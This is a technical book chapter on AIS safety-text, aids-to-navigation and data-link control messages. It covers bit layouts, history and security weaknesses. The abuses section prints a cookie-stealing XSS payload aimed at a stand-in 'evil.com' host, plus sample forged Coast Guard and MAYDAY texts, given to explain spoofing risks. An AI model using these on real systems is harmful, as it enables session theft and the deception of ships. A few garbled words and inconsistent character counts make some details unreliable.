


# Chapter 35: Deep Dive into Safety, Interrogation, AtoN, and Data Link Control Messages (Messages 12, 13, 14, 15, 16, 20, 21, 22, and 23)

## 1. Operational & Conceptual Overview

While Class A and Class B position and static reports (Messages 1, 2, 3, 5, 18, 19, 24, and 27) provide the continuous kinematic backbone of the Automatic Identification System, an autonomous VHF Data Link (VDL) shared by thousands of mobile vessels, search-and-rescue beacons, coastal lighthouses, and shore Vessel Traffic Services (VTS) centers cannot function on position reports alone. A complete maritime radio network requires three additional capabilities:
1. **Human-Readable Safety & Distress Messaging (Messages 12, 13, and 14):** Mariners, VTS operators, and emergency locator beacons need a standardized mechanism to send point-to-point or broadcast free-text safety alerts—and to verify with link-layer certainty whether an addressed warning actually reached the target vessel's bridge.
2. **Aids-to-Navigation (AtoN) Telemetry and Virtual Charting (Message 21):** Lighthouse authorities require a dedicated message type to broadcast the surveyed or GNSS-monitored coordinates, physical dimensions, lantern/RACON health status, and mooring integrity (`Off-Position Indicator`) of buoys, beacons, lighthouses, and offshore wind turbines—as well as to project **Virtual AtoNs** onto shipboard Electronic Chart Display and Information Systems (ECDIS) at locations where deploying a physical buoy is impossible or too slow.
3. **Active Interrogation and VDL Data Link Control (Messages 15, 16, 20, 22, and 23):** Competent shore authorities must be able to query uncooperative or newly arrived ships for static identity data (**Message 15**), override a specific vessel's autonomous reporting schedule (**Message 16**), protect fixed shore and buoy time slots from mobile contention via Fixed Access TDMA reservations (**Message 20**), hand over vessels to regional simplex VHF channels or low-power tank-berth modes (**Message 22**), and dynamically adjust the reporting rate or enforce radio silence across entire geographic fleets (**Message 23**).

```
+=========================================================================================+
|      THE NINE SAFETY, AtoN, & DATA LINK CONTROL MESSAGES OF ITU-R M.1371-5              |
+=========================================================================================+
|                                                                                         |
|  [ I. SAFETY-RELATED TEXT & LINK-LAYER ACKNOWLEDGMENT ]                                 |
|    * Message 12 (72-1008 bits, 1-5 slots) : Addressed Safety-Related Text (1-156 chars) |
|    * Message 13 (72-168 bits,  1 slot)    : Safety-Related Acknowledge (1-4 sequence #s)|
|    * Message 14 (40-1008 bits, 1-5 slots) : Broadcast Safety Text (1-161 chars / SART)  |
|                                                                                         |
|  [ II. AIDS TO NAVIGATION (AtoN) INFRASTRUCTURE ]                                       |
|    * Message 21 (272-360 bits, 2 slots)   : Real, Synthetic, & Virtual AtoN Report      |
|      (32 Aid Types, Off-Position Flag, 8-bit Health Status, 0-14 char Name Extension)   |
|                                                                                         |
|  [ III. INTERROGATION & VDL MAC/CHANNEL CONTROL ]                                       |
|    * Message 15 (88-160 bits,  1 slot)    : On-Demand Station Interrogation (1-2 MMSIs) |
|    * Message 16 (96/144 bits,  1 slot)    : Assigned Mode Command (Slot or Rate Control)|
|    * Message 20 (72-160 bits,  1 slot)    : Data Link Management (1-4 FATDMA Blocks)    |
|    * Message 22 (168 bits,     1 slot)    : Channel Management (BBox or Addressed Hand.)|
|    * Message 23 (160 bits,     1 slot)    : Group Assignment & Quiet Time (1-15 min)    |
+=========================================================================================+
```

From a systems engineering and cybersecurity perspective, these nine messages represent the **highest-leverage control plane**—and the **most dangerous attack surface**—in the entire ITU-R M.1371-5 specification. Because the legacy AIS protocol lacks cryptographic authentication (digital signatures or message authentication codes), every shipboard Class A and Class B transponder is mandated by **IEC 61993-2** and **IEC 62287-1/-2** to automatically obey over-the-air link-control commands (`Messages 15, 16, 20, 22, 23`) based solely on valid HDLC CRC-16 checksums and unverified Base Station MMSI prefixes. A single forged `160-bit` **Message 23** frame with `Quiet Time = 15` can silence every transponder in a congested strait, while uncertified fishing-net buoys spoofing **Message 21** routinely clutter SOLAS ECDIS screens with hundreds of counterfeit navigational hazard diamonds.

This chapter subjects all nine messages to our six-part forensic engineering profile: bit-level anatomy, protocol and parser defects, inter-message state machines, operational uses versus adversarial abuses, empirical VDL traffic distributions, and a complete software support matrix culminating in a runnable Python decoder and **VDL Intrusion Detection System (IDS)**.

---

## 2. Historical Context & Evolution (`schwehr/gis-history` Integration)

The evolution of AIS safety, AtoN, and link-control messages spans four decades of maritime casualty lessons, radio-link engineering, and open-source software hardening:

* **1988–1998 — Håkan Lans's STDMA Control Plane and ITU-R M.1371-1:** When Håkan Lans designed Self-Organizing Time-Division Multiple Access (STDMA), he recognized that an purely autonomous mobile network would still encounter local shore infrastructure (VTS towers, lock approaches, and differential GNSS stations) that could not dynamically hop time slots without disrupting their own fixed broadcast schedules. Working within IALA and ITU-R Working Party 8B, engineers added **Message 20 (*Data Link Management*)** so shore Base Stations could reserve Fixed Access TDMA (FATDMA) slots up to $120\text{ NM}$ offshore, **Message 16 (*Assigned Mode*)** to let VTS operators pace individual ships, **Message 22 (*Channel Management*)** to accommodate countries where $161.975\text{ MHz}$ (AIS 1) or $162.025\text{ MHz}$ (AIS 2) were still occupied by legacy terrestrial duplex telephone systems (such as the US Army Corps of Engineers and St. Lawrence Seaway networks in North America), and **Messages 12–14** to provide a digital text backchannel that reduced voice congestion on VHF Channel 16 ($156.800\text{ MHz}$).
* **December 14, 2002 — The *MV Tricolor* Wreck and the Birth of Virtual AtoNs:** At 02:15 UTC in dense fog in the French Exclusive Economic Zone of the Dover Strait—one of the busiest shipping lanes on Earth—the $190\text{ m}$ Norwegian roll-on/roll-off car carrier *MV Tricolor* (carrying $2{,}871$ luxury vehicles) collided with the Bahamian container ship *Kariba* and sank in $30\text{ m}$ of water, lying directly across the Traffic Separation Scheme with her hull barely awash at low tide. Despite immediate radio navigational warnings and patrol vessels on scene, the Dutch coaster *Nicola* struck the submerged wreck on December 16, and the Turkish tanker *Vicky* (carrying $70{,}000\text{ tonnes}$ of flammable gasoil) struck it again on January 1, 2003. The *Tricolor* disasters galvanized the **International Association of Marine Aids to Navigation and Lighthouse Authorities (IALA)** and the **United Kingdom General Lighthouse Authorities (Trinity House, Northern Lighthouse Board, and Commissioners of Irish Lights)** to finalize **Message 21 (*Aids-to-Navigation Report*)** and **IALA Recommendation A-126**. By setting `Virtual AtoN Flag = 1` in Message 21, a shore VTS center can now project an emergency wreck mark (`Aid Type = 4` or Cardinal marks `20–23`) onto every approaching vessel's ECDIS within **seconds** of a sinking, long before a buoy tender can steam to the site.
* **2006–2010 — IMO MSC.246(83), IEC 61097-14, and the AIS-SART Revolution:** Historically, SOLAS lifeboats carried $9\text{ GHz}$ X-band Radar Search and Rescue Transponders (Radar SARTs), which painted a line of 12 dots on a rescuing ship's X-band radar but were invisible to vessels using only S-band ($3\text{ GHz}$) radar or ECDIS. In 2007, the IMO adopted **Resolution MSC.246(83)** (effective January 1, 2010), permitting **AIS-SARTs** (`MMSI 970xxyyyy`) tested under **IEC 61097-14** as a full SOLAS equivalent. To guarantee that bridge crews notice a survival craft, IEC 61097-14 coupled **Message 1** (`Navigation Status = 14`) with a mandatory **Message 14 (*Safety-Related Broadcast*)** transmitted every $4\text{ minutes}$ containing the exact text `"SART ACTIVE"` (or `"SART TEST"`).
* **2007–2015 — `gpsd`, `libais`, and the Message 15 / Message 21 Bit-Length Bugs:** As Kurt Schwehr (`noaadata` and `libais` at UNH CCOM and Google) and Eric S. Raymond (`gpsd` / `AIVDM.txt`) built open-source decoders for large-scale coastal and satellite archives, they discovered that Messages 12, 14, 15, 20, and 21 broke naive fixed-offset bit parsers. Specifically, **ITU-R M.1371-3 (2007)** and **M.1371-4 (2010)** added the variable-length `Name of Aid to Navigation Extension` (`0–84 bits` plus `0–6` byte-alignment padding bits, expanding Message 21 from `272` to `272–360 bits`) and introduced **Message 23 (*Group Assignment Command*, `160 bits`)** to manage the rapidly growing fleet of Class B CSTDMA vessels.
* **2014–2024 — Balduzzi et al. Security Disclosures and ITU-R M.2135 AMRD Reforms:** In 2014, Trend Micro researchers Marco Balduzzi, Alessandro Pasta, and Kyle Wilhoit demonstrated in a controlled SDR testbed how forged **Message 14** Coast Guard eviction orders, **Message 20** FATDMA slot exhaustion, **Message 22** frequency hijacking, and **Message 23** `Quiet Time` silencing could paralyze bridge operations. Simultaneously, the proliferation of ratusan of thousands of uncertified $5\text{–}15\text{ W}$ Chinese drift-net and longline fishing buoys spoofing **Message 21** (`Aid Type` icons) led the ITU and IALA to adopt **ITU-R M.2135** (*Autonomous Maritime Radio Devices — AMRD*), segregating non-navigational fishing gear into **AMRD Group B** (`979MIDxxx`) on dedicated VHF Channel 2006 ($160.900\text{ MHz}$).

---

## 3. Deep Technical & Mathematical Foundations

### 35.1 Safety-Related Text & Acknowledgment Messages (Messages 12, 13, and 14)

ITU-R M.1371-5 provides three messages dedicated to human-readable 6-bit ASCII safety communications: **Message 12** (point-to-point addressed text), **Message 13** (automatic link-layer acknowledgment of Message 12), and **Message 14** (unaddressed broadcast text).

#### 35.1.1 How Messages 12, 13, and 14 Work (Complete Bit Tables)

##### Message 12: Addressed Safety-Related Message (`72 to 1,008 bits`, 1 to 5 Slots)
When a vessel or Base Station sends a safety text message to a specific `Destination MMSI`, it transmits **Message 12** using **RATDMA**, **ITDMA**, or **FATDMA**. The header occupies exactly `72 bits`, followed by `1` to `156` 6-bit ASCII characters (`6` to `936 bits`). Because ITU-R M.1371-5 Annex 2 requires the over-the-air HDLC payload to end on an 8-bit byte boundary (or 6-bit character boundary), `0` to `4` trailing spare bits may be appended.

#### Table 35.1: Bit-Level Layout of Message 12 (Addressed Safety-Related Message — 72 to 1,008 Bits, 1–5 Slots)

| 0-Based Bits (`libais`) | 1-Based ITU Bits | Width | Field Name | `libais` / Variable Name | Type | Scale / Units | Valid Range & Sentinel ("Not Available") |
|---|---|---:|---|---|---|---|---|
| `0..5` | `1..6` | 6 | Message ID | `message_id` | `uint6` | Enum | `12` |
| `6..7` | `7..8` | 2 | Repeat Indicator | `repeat_indicator` | `uint2` | Hops | `0–3` (`3` = Do not repeat) |
| `8..37` | `9..38` | 30 | Source ID (MMSI) | `mmsi` | `uint30` | 9-digit ID | `000000000`–`999999999` (Sender MMSI) |
| `38..39` | `39..40` | 2 | Sequence Number | `seq_num` | `uint2` | Counter | `0–3` (Cyclic message sequence ID echoed in Msg 13) |
| `40..69` | `41..70` | 30 | Destination ID (MMSI) | `dest_mmsi` | `uint30` | 9-digit ID | `000000000`–`999999999` (Target recipient MMSI) |
| `70..70` | `71..71` | 1 | Retransmit Flag | `retransmit` | `bool` | Flag | `0` = First transmission; `1` = Retransmitted after timeout |
| `71..71` | `72..72` | 1 | Spare | `spare` | `uint1` | — | `0` |
| `72..1007` | `73..1008` | 6–936 | Safety-Related Text | `text` | `str6` | 1–156 chars | 6-bit ASCII (Table C.1); strip trailing `@` and `0–4` pad bits |

##### Message 13: Safety-Related Acknowledge (`72, 104, 136, or 168 bits`, 1 Slot)
Whenever a station receives a **Message 12** whose `Destination ID` (`bits[40:70]`) matches its own MMSI, its link layer **automatically** generates and transmits a **Message 13** on the **same VHF channel** using **RATDMA**, **ITDMA**, or **FATDMA**. A single Message 13 can batch-acknowledge between **1 and 4** previously received Message 12 transmissions by packing 1 to 4 `(Destination MMSI [30b] + Sequence Number [2b])` 32-bit blocks after the 40-bit header.

> [!NOTE]
> **Bit-for-Bit Structural Identity with Message 7 (`libais` `Ais7_13`):**
> **Message 13** (*Safety-Related Acknowledge*) shares the **exact same bit-level layout** (`72, 104, 136, or 168 bits`) as **Message 7** (*Binary Acknowledge*, which acknowledges addressed binary **Message 6** packets; see [Chapter 36](ch36-messages-6-7-8-17-25-26-binary-envelopes-and-dgnss.md)). Consequently, `libais` decodes both messages using a single unified C++ class, `Ais7_13` (`src/libais/ais7_13.cpp`).

#### Table 35.2: Bit-Level Layout of Message 13 (Safety-Related Acknowledge — 72, 104, 136, or 168 Bits, 1 Slot)

| 0-Based Bits (`libais`) | 1-Based ITU Bits | Width | Field Name | `libais` / Variable Name | Type | Scale / Units | Valid Range & Sentinel ("Not Available") |
|---|---|---:|---|---|---|---|---|
| `0..5` | `1..6` | 6 | Message ID | `message_id` | `uint6` | Enum | `13` (or `7` for Binary Acknowledge) |
| `6..7` | `7..8` | 2 | Repeat Indicator | `repeat_indicator` | `uint2` | Hops | `0–3` |
| `8..37` | `9..38` | 30 | Source ID (MMSI) | `mmsi` | `uint30` | 9-digit ID | MMSI of the station sending the acknowledgment |
| `38..39` | `39..40` | 2 | Spare | `spare` | `uint2` | — | `0` |
| `40..69` | `41..70` | 30 | Destination ID 1 (MMSI) | `dest_mmsi_1` | `uint30` | 9-digit ID | MMSI of the station whose Msg 12 is acknowledged (#1) |
| `70..71` | `71..72` | 2 | Sequence Number 1 | `seq_num_1` | `uint2` | Counter | `0–3` (Copied from `bits[38:40]` of received Msg 12) |
| `72..101` | `73..102` | 30 | Destination ID 2 (MMSI) | `dest_mmsi_2` | `uint30` | 9-digit ID | *Optional* (#2; present if total length $\ge 104\text{ bits}$) |
| `102..103` | `103..104` | 2 | Sequence Number 2 | `seq_num_2` | `uint2` | Counter | *Optional* (`0–3`) |
| `104..133` | `105..134` | 30 | Destination ID 3 (MMSI) | `dest_mmsi_3` | `uint30` | 9-digit ID | *Optional* (#3; present if total length $\ge 136\text{ bits}$) |
| `134..135` | `135..136` | 2 | Sequence Number 3 | `seq_num_3` | `uint2` | Counter | *Optional* (`0–3`) |
| `136..165` | `137..166` | 30 | Destination ID 4 (MMSI) | `dest_mmsi_4` | `uint30` | 9-digit ID | *Optional* (#4; present if total length $= 168\text{ bits}$) |
| `166..167` | `167..168` | 2 | Sequence Number 4 | `seq_num_4` | `uint2` | Counter | *Optional* (`0–3`) |

##### Message 14: Safety-Related Broadcast Message (`40 to 1,008 bits`, 1 to 5 Slots)
**Message 14** omits the `Destination MMSI`, `Sequence Number`, and `Retransmit Flag` of Message 12, reducing the header to `40 bits` and allowing up to **`161` 6-bit ASCII characters (`966 bits`, plus `2` trailing spare bits = `1,008 bits` maximum across 5 slots)** to be broadcast to all stations within VHF range.

#### Table 35.3: Bit-Level Layout of Message 14 (Safety-Related Broadcast Message — 40 to 1,008 Bits, 1–5 Slots)

| 0-Based Bits (`libais`) | 1-Based ITU Bits | Width | Field Name | `libais` / Variable Name | Type | Scale / Units | Valid Range & Sentinel ("Not Available") |
|---|---|---:|---|---|---|---|---|
| `0..5` | `1..6` | 6 | Message ID | `message_id` | `uint6` | Enum | `14` |
| `6..7` | `7..8` | 2 | Repeat Indicator | `repeat_indicator` | `uint2` | Hops | `0–3` |
| `8..37` | `9..38` | 30 | Source ID (MMSI) | `mmsi` | `uint30` | 9-digit ID | Sender MMSI (`970/972/974xxxxxx` for SART/MOB/EPIRB) |
| `38..39` | `39..40` | 2 | Spare | `spare` | `uint2` | — | `0` |
| `40..1007` | `41..1008` | 6–968 | Safety-Related Text | `text` | `str6` | 1–161 chars | 6-bit ASCII (`"SART ACTIVE"`, `"SART TEST"`, or warning) |

##### Slot Length vs. Maximum Character Capacity for Messages 12 and 14
Because every additional TDMA time slot adds $256\text{ bits}$ of raw burst capacity (after the first slot's HDLC overhead), the maximum number of 6-bit ASCII characters that fit into $N_{\text{slots}} \in \{1..5\}$ is strictly bounded by ITU-R M.1371-5 Annex 2:

$$\begin{aligned}
N_{\text{chars, Msg 12}}(N_{\text{slots}}) &= \left\lfloor \frac{B_{\max}(N_{\text{slots}}) - 72}{6} \right\rfloor \in \{13, \; 53, \; 96, \; 139, \; 156\} \\
N_{\text{chars, Msg 14}}(N_{\text{slots}}) &= \left\lfloor \frac{B_{\max}(N_{\text{slots}}) - 40}{6} \right\rfloor \in \{19, \; 59, \; 102, \; 145, \; 161\}
\end{aligned}$$

where $B_{\max}(1) = 156\text{ bits}$ (for RATDMA/ITDMA without comm state, or $168\text{ bits}$ max), $B_{\max}(2) = 392\text{ bits}$, $B_{\max}(3) = 648\text{ bits}$, $B_{\max}(4) = 904\text{ bits}$, and $B_{\max}(5) = 1{,}008\text{ bits}$.

#### 35.1.2 Relationships, Issues, Uses, and Abuses (Messages 12, 13, and 14)

##### The Message 12 $\leftrightarrow$ Message 13 Automatic Link-Layer Acknowledgment Loop
A frequent operational misconception among deck officers is that receiving a **Message 13** acknowledgment means the officer of the watch on the target ship has *read* the Message 12 text on their Minimum Keyboard and Display (MKD) or ECDIS. In reality, **Message 13 is purely an automatic OSI Layer 2 (Data Link Layer) acknowledgment**:



If the sender's transponder does not receive a matching **Message 13** (`dest_mmsi_k == Source_MMSI` and `seq_num_k == seq_num`) within **$4\text{ seconds}$**, it sets `Retransmit Flag = 1` (`bit[70]`) and automatically retransmits the Message 12 up to **3 additional times** (4 transmissions total) before reporting `TX FAILED / NO ACK` to the bridge display via the `$AIABK` NMEA 0183 sentence.

##### Mandatory AIS-SART / AIS-MOB / EPIRB-AIS Pairing (Message 14 + Message 1)
As detailed in [Chapter 18](../part4-space-air-vdes/ch18-aircraft-drones-sar-and-direction-finding.md), emergency beacons with MMSI prefixes **`970xxyyyy` (AIS-SART)**, **`972xxyyyy` (AIS-MOB)**, and **`974xxyyyy` (EPIRB-AIS)** transmit a synchronized burst of 8 messages per minute (4 on AIS 1, 4 on AIS 2). For 3 consecutive minutes they transmit **Message 1** (`Navigation Status = 14`), and on **every 4th minute**, two of those bursts are replaced by **Message 14** carrying:
* **`"SART ACTIVE"`** (`66 bits` = 11 chars + 2 pad bits = `108 bits` total) during an active distress alert, or
* **`"SART TEST"`** (`54 bits` = 9 chars + 2 pad bits = `96 bits` total) when the mariner presses the spring-loaded test switch.
When an IEC 61993-2 Class A transponder or IEC 61174 ECDIS receives a Message 14 from a `970/972/974` MMSI containing `"SART ACTIVE"`, it sounds a dedicated distress alarm and renders the target with the **IHO S-52 circled cross (`⊕`)** symbol.

##### Protocol Issues, Abuses, and Security Vulnerabilities
1. **Non-Multiple-of-6 Trailing Bit Padding Bugs:** Because HDLC transmits whole 8-bit bytes over the air (`total_bits % 8 == 0`), adding a 40-bit (Msg 14) or 72-bit (Msg 12) header to $6 \times N_{\text{chars}}$ bits often requires `2` or `4` trailing spare bits to reach the next byte boundary. Naive decoders that compute `num_chars = (len(bits) - 72) / 6` without integer floor division—or that fail to ignore the final `<6` spare bits—either raise an exception (`ValueError: Payload not aligned to 6-bit boundary`) or append a garbage `@` character to the decoded string. Both `libais` (`Ais12`, `Ais14`) and `gpsd` explicitly compute `num_chars = (bit_len - header_bits) // 6` and discard the remaining `0–5` spare bits.
2. **Informal Mariner Bridge-to-Bridge Chat:** Before global satellite crew Wi-Fi became affordable, watchstanders in congested anchorages (Singapore Strait, Fujairah, Lagos, Panama Canal) routinely abused Messages 12 and 14 as an unencrypted maritime SMS chat room—exchanging sports scores, fuel prices, or insults across 3-to-5-slot broadcasts. Because a 5-slot Message 14 consumes $133\text{ ms}$ of airtime across the entire $30\text{ NM}$ radio cell and triggers audible pop-up alarms on every SOLAS bridge in range, VTS authorities strictly prohibit non-emergency text transmissions.
3. **Social-Engineering & Counterfeit Coast Guard Eviction Phishing (Balduzzi et al., 2014):** Because Message 12 and Message 14 carry no cryptographic origin authentication, an adversary with a $\$300$ SDR can spoof a coastal VTS or Coast Guard Base Station MMSI (`003669999`) and send an addressed Message 12 or broadcast Message 14 reading:
   * `"USCG SECTOR WARNING: LIVE FIRE EXERCISE IN PROGRESS. ALL VESSELS ALTER COURSE TO 180 DEG IMMEDIATELY"`
   * `"MAYDAY MMSI 367000000 SINKING POS 25-45N 080-05W REQUIRE IMMEDIATE ASSISTANCE"`
   This exploits human trust in official bridge safety displays to lure vessels off course, divert SAR assets, or clear a waterway.
4. **Stored Cross-Site Scripting (XSS) & SQL Injection in Web Dashboards:** The 6-bit ASCII table (`ITU-R M.1371-5 Table 44`) includes `<`, `>`, `/`, `"`, `'`, `(`, `)`, `;`, and `=`. Security audits of commercial and open-source web-based AIS dashboards have repeatedly uncovered Stored XSS vulnerabilities when a spoofed Message 14 containing `<SCRIPT>FETCH('//EVIL.COM/'+DOCUMENT.COOKIE)</SCRIPT>` is rendered unescaped inside an HTML alert table!

---

### 35.2 Aids-to-Navigation Report (Message 21, `272 to 360 bits`, 2 Slots)

#### 35.2.1 How Message 21 Works (Complete Bit Table)

**Message 21 (*Aids-to-Navigation Report*)** is transmitted every **$3\text{ minutes}$** (nominally once every $180\text{ s}$, alternating between AIS 1 and AIS 2, or more frequently when off-position) using **FATDMA** (for shore-broadcast or time-synchronized AtoNs) or **RATDMA** (for autonomous solar-powered floating buoys). Because its base frame is `272 bits`—and can expand up to **`360 bits`** when the optional `Name of Aid to Navigation Extension` (`bits[272:356]`) is populated—Message 21 always occupies **2 consecutive time slots** over the air and requires a **2-sentence multi-fragment `!AIVDM` sequence**.

#### Table 35.4: Bit-Level Layout of Message 21 (Aids-to-Navigation Report — 272 to 360 Bits, 2 Slots)

| 0-Based Bits (`libais`) | 1-Based ITU Bits | Width | Field Name | `libais` / Variable Name | Type | Scale / Units | Valid Range & Sentinel ("Not Available") |
|---|---|---:|---|---|---|---|---|
| `0..5` | `1..6` | 6 | Message ID | `message_id` | `uint6` | Enum | `21` |
| `6..7` | `7..8` | 2 | Repeat Indicator | `repeat_indicator` | `uint2` | Hops | `0–3` (`3` = Do not repeat) |
| `8..37` | `9..38` | 30 | ID (MMSI) | `mmsi` | `uint30` | 9-digit ID | `99MID1xxx` (Physical AtoN) or `99MID6xxx` (Virtual AtoN) |
| `38..42` | `39..43` | 5 | **Aid Type** | `aton_type` | `uint5` | Enum (`0–31`) | Table 35.5 (`0`=Default, `1–19`=Fixed, `20–31`=Floating) |
| `43..162` | `44..163` | 120 | Name of Aid to Navigation | `name` | `str6` (20 chars)| 6-bit ASCII | First 20 chars of AtoN name (if `<20`, pad with `@`) |
| `163..163` | `164..164` | 1 | Position Accuracy | `position_accuracy` | `bool` | Flag | `1` = High ($\le 10\text{ m}$ / DGPS / surveyed); `0` = Low ($>10\text{ m}$) |
| `164..191` | `165..192` | 28 | Longitude ($\lambda$) | `x` / `longitude` | `int28` | $\frac{1}{600{,}000}^\circ$ | $[-180^\circ, +180^\circ]$; **`181.0°` (`0x6791AC0`) = N/A** |
| `192..218` | `193..219` | 27 | Latitude ($\phi$) | `y` / `latitude` | `int27` | $\frac{1}{600{,}000}^\circ$ | $[-90^\circ, +90^\circ]$; **`91.0°` (`0x3412140`) = N/A** |
| `219..227` | `220..228` | 9 | Dimension to Bow ($A$) | `dim_a` | `uint9` | $1\text{ meter}$ | `0–511 m` (`0` for Virtual AtoN, point target, or circular buoy) |
| `228..236` | `229..237` | 9 | Dimension to Stern ($B$) | `dim_b` | `uint9` | $1\text{ meter}$ | `0–511 m` (`0` for Virtual AtoN, point target, or circular buoy) |
| `237..242` | `238..243` | 6 | Dimension to Port ($C$) | `dim_c` | `uint6` | $1\text{ meter}$ | `0–63 m` (`0` for Virtual; if $A=B=0$, $C, D$ encode diameter) |
| `243..248` | `244..249` | 6 | Dimension to Starboard ($D$) | `dim_d` | `uint6` | $1\text{ meter}$ | `0–63 m` (`0` for Virtual; for offshore structure, $A..D$ = footprint) |
| `249..252` | `250..253` | 4 | Type of EPFD | `fix_type` | `uint4` | Enum (`0–15`) | **`7` = Surveyed** (Fixed/Virtual AtoN); `1–3` = GNSS (Floating) |
| `253..258` | `254..259` | 6 | Time Stamp | `timestamp` | `uint6` | UTC second | `0–59 s`; `60`=N/A, `61`=Manual, `62`=Est, `63`=Inop |
| `259..259` | `260..260` | 1 | **Off-Position Indicator** | `off_position` | `bool` | Flag | **`0` = On position; `1` = Off position!** (Valid only if `TS <= 59`) |
| `260..267` | `261..268` | 8 | **AtoN Status** | `aton_status` | `uint8` | Bitmask | Regional / IALA A-126 lantern, RACON, & health bits (`00000000` = default) |
| `268..268` | `269..269` | 1 | RAIM Flag | `raim` | `bool` | Flag | `0` = RAIM not in use; `1` = RAIM in use |
| `269..269` | `270..270` | 1 | **Virtual Aid Flag** | `virtual_aton` | `bool` | Flag | **`0` = Real or Synthetic AtoN at physical site; `1` = Virtual AtoN!** |
| `270..270` | `271..271` | 1 | Assigned Mode Flag | `assigned` | `bool` | Flag | `0` = Autonomous/FATDMA mode; `1` = Assigned mode |
| `271..271` | `272..272` | 1 | Spare | `spare` | `uint1` | — | `0` |
| `272..355` | `273..356` | 0–84 | **Name of AtoN Extension**| `name_ext` | `str6` (0–14 ch)| 6-bit ASCII | Optional 0 to 14 extra chars concatenated directly to `name` |
| `Var..359` | `Var..360` | 0–6 | Trailing Spare Padding | `spare2` | `uint` (`0,2,4,6`)| Bits | Zero-padding so total length $\in [272, 360]$ is a multiple of 8 bits |

#### Table 35.5: Complete 5-Bit Aid Type (`aton_type`, `bits[38:43]`) Enumeration (`0–31`, ITU-R M.1371-5 & IALA A-126)

| Code | Structural Class | Aid to Navigation Description | Code | Structural Class | Aid to Navigation Description |
|---:|---|---|---:|---|---|
| `0` | Unspecified | Default, Type of AtoN not specified | `16` | Fixed | Beacon, Preferred Channel starboard hand |
| `1` | Fixed | Reference point | `17` | Fixed | Beacon, Isolated danger |
| `2` | Fixed | RACON (radar transponder marking a hazard) | `18` | Fixed | Beacon, Safe water |
| `3` | Fixed | **Fixed offshore structure** (wind turbines, oil/gas platforms, rigs) | `19` | Fixed | Beacon, Special mark |
| `4` | Emergency | **Emergency Wreck Marking Buoy** (IALA Rec. O-133; Spare in early M.1371) | `20` | Floating | Cardinal Mark N (North of danger) |
| `5` | Fixed | Light, without sectors | `21` | Floating | Cardinal Mark E (East of danger) |
| `6` | Fixed | Light, with sectors | `22` | Floating | Cardinal Mark S (South of danger) |
| `7` | Fixed | Leading Light Front | `23` | Floating | Cardinal Mark W (West of danger) |
| `8` | Fixed | Leading Light Rear | `24` | Floating | Port hand Mark (IALA Region A = Red can; Region B = Green can) |
| `9` | Fixed | Beacon, Cardinal N | `25` | Floating | Starboard hand Mark (IALA Region A = Green cone; Region B = Red cone) |
| `10` | Fixed | Beacon, Cardinal E | `26` | Floating | Preferred Channel Port hand |
| `11` | Fixed | Beacon, Cardinal S | `27` | Floating | Preferred Channel Starboard hand |
| `12` | Fixed | Beacon, Cardinal W | `28` | Floating | Isolated danger (Two black spheres) |
| `13` | Fixed | Beacon, Port hand | `29` | Floating | Safe Water (Red/white vertical stripes, red sphere topmark) |
| `14` | Fixed | Beacon, Starboard hand | `30` | Floating | Special Mark (Yellow buoy: ODAS, pipelines, spoil grounds, wind perimeters) |
| `15` | Fixed | Beacon, Preferred Channel port hand | `31` | Floating | Light Vessel / LANBY (Large Automated Navigation Buoy) / Floating Rigs |

##### Decoding the 8-Bit `AtoN Status` Field (`bits[260:268]`, IALA Recommendation A-126)
While ITU-R M.1371-5 designates `bits[260:268]` for regional/local authority use, **IALA Recommendation A-126** standardizes the 8-bit bitmask (`d7..d0`, MSB to LSB) for international ECDIS and VTS interoperability:
* **`Bits d7..d5` (`bits[260:263]`, Page ID = `000` for IALA Standard Page):**
  * **`Bits d4..d3` (`bits[263:265]`, RACON Status):** `00` = No RACON installed; `01` = RACON installed but not monitored; `10` = RACON operational; **`11` = RACON error / failed**.
  * **`Bits d2..d1` (`bits[265:267]`, Light / Lantern Status):** `00` = No light or not monitored; `01` = Light ON; `10` = Light OFF (daytime normal); **`11` = Light failed / extinguished or operating on emergency reduced-range backup**.
  * **`Bit d0` (`bit[267]`, Health Alarm Flag):** `0` = Good health; **`1` = Internal AtoN fault / battery low / intruder hatch alarm**.

#### 35.2.2 Issues, Relationships, Uses, and Abuses (Message 21)

##### The Four IALA A-126 Categories of AIS Aids to Navigation
A critical operational distinction exists between where an AtoN physically resides and which radio transmitter radiates its **Message 21** burst:

| IALA Category | Physical Structure Exists at Coordinates? | Where Is the AIS Transmitter Located? | MMSI Format (`ITU-R M.585-9`) | `Virtual Aid Flag` (`bit[269]`) | Monitoring & Failure Behavior |
|---|---|---|---|---|---|
